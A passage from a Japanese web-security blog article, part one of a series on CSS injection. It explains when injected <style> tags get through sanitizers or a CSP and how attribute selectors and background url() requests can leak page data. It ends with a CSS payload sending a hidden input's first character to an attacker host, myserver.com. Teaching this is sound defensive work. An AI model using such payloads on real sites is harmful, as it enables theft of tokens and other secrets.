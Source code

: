 ```yaml
---
sidebar_position: 17
---
```


# CSSだけで攻撃できる？CSSインジェクション（前編）

これまでのブログ記事では、プロトタイプ汚染やDOM clobberingなど、JavaScriptの実行を操作して予期しない結果を生み出すさまざまな攻撃を見てきました。言い換えれば、これらの攻撃によって引き起こされる影響は最終的にJavaScriptが原因です。

さて、JavaScriptを必要とせずに影響を与えることができるいくつかの攻撃手法を探ってみましょう。最初に説明するのはCSSインジェクションです。

フロントエンド開発の経験があるなら、CSSが強力なツールであることをすでに知っているかもしれません。例えば、純粋なCSSで次のようなものを作成できます。

1. [三目並べ](https://codepen.io/alvaromontoro/pen/vwjBqz)
2. [弾幕ゲーム](https://codepen.io/i0z/pen/AwYbda)
3. [3Dゲーム](https://garethheyes.co.uk/)

はい、その通りです。これらの例は、JavaScriptを1行も使用せずに、純粋なCSSとHTMLで作成されています。CSSは確かに魔法のようです。

しかし、CSSはどのように攻撃手段として使用できるのでしょうか？引き続き探求していきましょう。

## CSSインジェクションとは？

名前が示すように、CSSインジェクションとは、ウェブページに任意のCSS構文を挿入できること、またはより具体的に言えば、`<style>` タグを使用できることを指します。なぜそのような状況が存在するのか疑問に思うかもしれません。

私の意見では、一般的なシナリオは2つあります。1つ目は、ウェブサイトが多くのタグをフィルタリングするが、`<style>` タグを見落とし、無害と見なしている場合です。例えば、サニタイズによく使用されるDOMPurifyは、デフォルトでさまざまな危険なタグをフィルタリングし、`<h1>` や `<p>` のような安全なタグのみを残します。しかし、`<style>` はデフォルトの安全なタグのリストに含まれています。したがって、特定のパラメータが設定されていない場合、`<style>` はフィルタリングされず、攻撃者がCSSを注入できるようになります。

2番目のシナリオは、HTMLを注入できるが、コンテンツセキュリティポリシー（CSP）のためにJavaScriptの実行が妨げられる場合です。この場合、JavaScriptを実行できないため、攻撃者は悪意のあるアクションを実行するためにCSSを使用することに頼ります。

では、CSSインジェクションで何が達成できるのでしょうか？CSSはウェブページのスタイル設定にのみ使用されるのではないでしょうか？ウェブページの背景色を変更することも攻撃手法と見なされるのでしょうか？

## CSSでデータを盗む

CSSは主にウェブページのスタイル設定に使用されますが、2つの機能と組み合わせることでデータを盗むことができます。

最初の機能は属性セレクターです。

CSSには、特定の条件を満たす属性を持つ要素をターゲットにできるセレクターがいくつかあります。例えば、`input[value^=a]` は、値が `a` で始まる要素を選択します。

同様のセレクターには次のようなものがあります。

1. `input[value^=a]` （プレフィックス）値が `a` で始まる要素を選択します。
2. `input[value$=a]` （サフィックス）値が `a` で終わる要素を選択します。
3. `input[value*=a]` （含む）値に `a` が含まれる要素を選択します。

2番目の機能は、CSSを使用してリクエストを行う機能です。例えば、サーバーから背景画像を読み込むことは、本質的にリクエストを送信することです。

ウェブページに `<input name="secret" value="abc123">` というコンテンツがあるとします。CSSを注入できる場合、次のように記述できます。

```css
input[name="secret"][value^="a"] {
  background: url(https://myserver.com?q=a)
}

input[name="secret"][value^="b"] {
  background: url(https://myserver.com?q=b)
}

input[name="secret"][value^="c"] {
  background: url(https://myserver.com?q=c)
}

```